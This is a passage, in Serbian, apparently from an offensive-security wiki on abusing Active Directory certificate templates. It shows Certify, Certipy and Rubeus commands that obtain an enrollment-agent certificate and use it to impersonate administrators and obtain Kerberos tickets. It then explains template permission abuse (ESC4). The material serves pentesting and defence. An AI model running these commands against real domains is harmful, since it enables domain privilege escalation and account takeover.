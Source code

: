 ### Zloupotreba

Možete koristiti [**Certify**](https://github.com/GhostPack/Certify) ili [**Certipy**](https://github.com/ly4k/Certipy) za zloupotrebu ovog scenarija:

```bash
# Request an enrollment agent certificate
Certify.exe request /ca:DC01.DOMAIN.LOCAL\DOMAIN-CA /template:Vuln-EnrollmentAgent
certipy req -username john@corp.local -password Passw0rd! -target-ip ca.corp.local' -ca 'corp-CA' -template 'templateName'

# Enrollment agent certificate to issue a certificate request on behalf of
# another user to a template that allow for domain authentication
Certify.exe request /ca:DC01.DOMAIN.LOCAL\DOMAIN-CA /template:User /onbehalfof:CORP\itadmin /enrollment:enrollmentcert.pfx /enrollcertpwd:asdf
certipy req -username john@corp.local -password Pass0rd! -target-ip ca.corp.local -ca 'corp-CA' -template 'User' -on-behalf-of 'corp\administrator' -pfx 'john.pfx'

# Use Rubeus with the certificate to authenticate as the other user
Rubeu.exe asktgt /user:CORP\itadmin /certificate:itadminenrollment.pfx /password:asdf
```

**Korisnici** koji su ovlašćeni da **dobiju** sertifikat za agenta za upis, šablone u kojima su agenti za upis ovlašćeni da upišu i **nalozi** u ime kojih agent za upis može delovati mogu biti ograničeni od strane preduzeća CA. To se postiže otvaranjem `certsrc.msc` **snap-ina**, **desnim klikom na CA**, **klikom na Properties**, a zatim **navigiranjem** do kartice "Enrollment Agents".

Međutim, primećeno je da je **podrazumevana** postavka za CA "Ne ograničavaj agente za upis". Kada se ograničenje za agente za upis omogući od strane administratora, postavka se podešava na "Ograniči agente za upis", a podrazumevana konfiguracija ostaje izuzetno dozvoljavajuća. To omogućava pristup **svima** za upis u sve šablone kao bilo ko.

## Kontrola pristupa ranjivim šablonima sertifikata - ESC4

### **Objašnjenje**

**Bezbednosni deskriptor** na **šablonima sertifikata** definiše **dozvole** koje određeni **AD principali** poseduju u vezi sa šablonom.

Ukoliko **napadač** ima potrebne **dozvole** za **izmenu** šablona i **implementaciju** bilo kakvih **iskorišćivih konfiguracija** koje su opisane u **prethodnim sekcijama**, može se olakšati eskalacija privilegija.

Značajne dozvole koje se odnose na šablone sertifikata uključuju:

* **Vlasnik:** Dodeljuje implicitnu kontrolu nad objektom, omogućavajući izmenu bilo kojih atributa.
* **FullControl:** Omogućava potpunu kontrolu nad objektom, uključujući mogućnost izmene bilo kojih atributa.
* **WriteOwner:** Dozvoljava izmenu vlasnika objekta u principala koji je pod kontrolom napadača.
* **WriteDacl:** Omogućava prilagođavanje kontrola pristupa, potencijalno dodeljujući napadaču FullControl.
* **WriteProperty:** Ovlašćuje uređivanje bilo kojih svojstava objekta.
